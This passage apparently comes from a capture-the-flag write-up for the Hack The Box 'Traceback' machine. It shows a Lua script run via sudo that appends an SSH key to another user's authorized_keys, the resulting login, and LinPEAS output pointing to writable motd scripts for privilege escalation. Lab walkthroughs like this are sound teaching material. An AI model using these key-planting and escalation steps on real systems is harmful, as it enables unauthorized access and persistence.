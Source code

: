 file = io.open\("/home/sysadmin/.ssh/authorized\_keys","a"\)

io.output\(file\)

io.write\("ssh-rsa … ="\)

We can then run this script:

webadmin@traceback:/dev/shm$ sudo -u sysadmin /home/sysadmin/luvit test.lua

And then SSH onto the machine as sysadmin:

┌─\[oztechmuse@parrot\]─\[~/boxes/Traceback\]

└──╼ $ssh -i sysadmin sysadmin@traceback.htb

The authenticity of host 'traceback.htb \(10.129.1.189\)' can't be established.

ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.

Are you sure you want to continue connecting \(yes/no/\[fingerprint\]\)? yes

Warning: Permanently added 'traceback.htb,10.129.1.189' \(ECDSA\) to the list of known hosts.

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

-------- OWNED BY XH4H ---------

- I guess stuff could have been configured better ^^ -

\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

Welcome to Xh4H land

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2

$ whoami

sysadmin

Now that we are sysadmin and have got the flag in /home/sysadmin/user.txt, we can run LinPEAS again as the sysadmin user. This will generate different output because as sysadmin, we will have different privileges than webadmin. You can see this when looking at the output and the sudo -l command returns nothing whereas it did when we were webadmin. Running linpeas.sh again and looking through the output, we get a highly exploitable vulnerability flagged:

\[+\] Interesting GROUP writable files \(not in Home\) \(max 500\)

\[i\] https://book.hacktricks.xyz/linux-unix/privilege-escalation\#w

ritable-files

 Group sysadmin:

/etc/update-motd.d/50-motd-news

/etc/update-motd.d/10-help-text

/etc/update-motd.d/91-release-upgrade

/etc/update-motd.d/00-header

/etc/update-motd.d/80-esm

/home/webadmin/note.txt

